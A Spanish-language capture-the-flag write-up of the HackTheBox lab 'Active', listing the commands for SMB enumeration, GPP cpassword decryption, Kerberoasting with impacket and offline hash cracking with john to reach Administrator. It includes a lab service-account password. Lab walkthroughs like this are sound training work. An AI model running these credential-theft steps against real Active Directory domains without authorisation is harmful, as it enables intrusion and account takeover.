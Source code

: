 ```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Active

`Active` es una máquina de dificultad fácil a media, que presenta dos técnicas muy frecuentes para obtener privilegios dentro de un entorno de Active Directory.

<figure><img src="../../../../../.gitbook/assets/Active.png" alt="" width="563"><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un escaneo sobre los puertos abiertos de la máquina Active.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.100 -oG allPorts
```

<figure><img src="../../../../../.gitbook/assets/703_vmware_98kd4quoYx.png" alt=""><figcaption></figcaption></figure>

Lanzaremos unos scripts con **Nmap** para intenter ver vulnerabilidades y versiones sobre los puertos abiertos encontrados.

{% code overflow="wrap" %}
```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 10.10.10.100 -oN targeted
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/702_vmware_rDAcKa5W44.png" alt=""><figcaption></figcaption></figure>

Comprobaremos el nombre del domninio a través del siguiente comando

```bash
ldapsearch -x -H ldap://10.10.10.100 -s base | grep defaultNamingContext
```

<figure><img src="../../../../../.gitbook/assets/704_vmware_aK8WYI4ygG.png" alt=""><figcaption></figcaption></figure>

Añadiremos en nuestro archivo **/etc/hosts** la dirección IP de Active y el dominio

```bash
catnp /etc/hosts | grep active.htb
```

<figure><img src="../../../../../.gitbook/assets/705_vmware_cDJv3NirhC.png" alt=""><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a la enumeración de SMB a través de **enum4linux** para ver que encontramos. Vemos que sin usuario podemos acceder a los recursos _IPC$_ y _Replication_.

```bash
enum4linux -a -u "" -p "" 10.10.10.100
```

<figure><img src="../../../../../.gitbook/assets/707_vmware_05U2IRlQw5.png" alt=""><figcaption></figcaption></figure>

Procederemos a acceder al recurso compartido "Replication" sin usuario, y nos descargaremos todo el contenido del recurso compartido en nuestro equipo local.

```
smbclient //10.10.10.100/Replication -N
```

<figure><img src="../../../../../.gitbook/assets/710_vmware_c1osikjLMd.png" alt=""><figcaption></figcaption></figure>

## Abusing GPP Passwords

### Decrypting GPP Passwords - gpp-decrypt - impacket-GetGPPPassword

Comprobaremos que tenemos un archivo .xml que pertenece a una política y se trata de la información de un usuario del Active Directory y un campo "cpasswd" que está encriptado utilizando una clave conocida, que es parte de la configuración predeterminada de la Política de Preferencias de Grupo de Windows (GPP).&#x20;

Para desencriptarlo podemos hacer uso de **gpp-decrypt** o **impacket-Get-GPPPassword**.

{% code overflow="wrap" %}
```bash
catnp Groups.xml

impacket-Get-GPPPassword -xmlfile Groups.xml 'LOCAL'

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/712_vmware_oGnj8eke3T.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

## Flag user.txt

Comprobaremos a través de **netexec** de que podemos acceder con el usuario encontrado y su respectiva credencial. Comprobamos además de que tiene acceso al recurso compartido "Users".

```bash
netexec smb 10.10.10.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18'  --shares
```

<figure><img src="../../../../../.gitbook/assets/713_vmware_MoOwsWrOmB.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos al SMB con estas nuevas credenciales y nos descargaremos el archivo "user.txt" que es la primera flag.

```bash
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS
```

<figure><img src="../../../../../.gitbook/assets/715_vmware_cDLsh84FvU.png" alt=""><figcaption></figcaption></figure>

Comprobaremos el contenido de la flag de user.txt

```
catnp user.txt
```

<figure><img src="../../../../../.gitbook/assets/716_vmware_IgW1eZ4qb3.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kerberoasting Attack (GetUsersSPNs.py)

"Procederemos a realizar un ataque de Kerberoasting en busca de servicios en el dominio active.htb que estén vinculados a cuentas de usuario. El objetivo es obtener tickets de servicio Kerberos (TGS) asociados a estos servicios, los cuales podrán ser crackeados offline para intentar revelar las contraseñas de las cuentas de servicio."

Obtenemos el hash Krb5 del usuario "Administrator".

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/718_vmware_xhWpRLa1EQ.png" alt=""><figcaption></figcaption></figure>

Guardaremos el hash en un archivo de texto

```
catnp hash.txt
```

<figure><img src="../../../../../.gitbook/assets/719_vmware_qk94vfrOpO.png" alt=""><figcaption></figcaption></figure>

Procederemos a realizar ataque de fuerza bruta a través de un diccionario para desencriptar el hash encontrado. Finalmente hemos obtenido la contraseña.

```bash
john --format=krb5tgs hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../../../.gitbook/assets/720_vmware_SLuBZGyeFw.png" alt=""><figcaption></figcaption></figure>

Comprobamos que podemos acceder con usuario "Administrator" y encontrar su correspondiente flag de root.txt

```bash
smbclient //10.10.10.100/Users -U active.htb/Administrator
```

<figure><img src="../../../../../.gitbook/assets/721_vmware_pMqMPFXlgK.png" alt=""><figcaption></figcaption></figure>
